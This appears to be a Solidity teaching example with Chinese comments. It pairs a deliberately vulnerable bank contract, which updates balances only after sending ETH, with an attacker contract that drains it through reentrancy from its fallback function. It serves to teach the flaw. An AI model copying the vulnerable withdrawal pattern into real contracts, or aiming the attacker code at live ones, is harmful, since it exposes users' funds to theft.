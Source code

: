 ```solidity
pragma solidity ^0.8.0;

// 这是一个存在重入漏洞的合约示例
contract VulnerableBank {
    mapping(address => uint) public balances;

    // 存款函数
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // 取款函数 (存在漏洞)
    function withdraw() public {
        uint amount = balances[msg.sender];
        require(amount > 0, "No balance to withdraw");

        // 外部调用：将ETH发送给调用者
        // 这里没有在转账前更新余额，存在重入漏洞
        (bool success, ) = msg.sender.call{value: amount}(""); 
        require(success, "Failed to send Ether");

        // 在外部调用之后才更新余额，为攻击留下了窗口
        balances[msg.sender] = 0; 
    }

    // 检查合约余额
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

// 这是一个攻击合约示例
contract Attacker {
    VulnerableBank public bank;

    constructor(address _bankAddress) {
        bank = VulnerableBank(_bankAddress);
    }

    // 攻击入口：存入少量ETH以获得初始余额
    function attack() public payable {
        bank.deposit{value: 1 ether}(); // 存入1 ETH
        bank.withdraw(); // 第一次提款，触发重入
    }

    // 回退函数：在被VulnerableBank合约调用时，再次调用withdraw
    fallback() external payable {
        if (address(bank).balance >= 1 ether) { // 简单条件判断，防止无限循环
            bank.withdraw(); 
        }
    }

    // 提取攻击者合约中的ETH
    function withdrawAttackerBalance() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
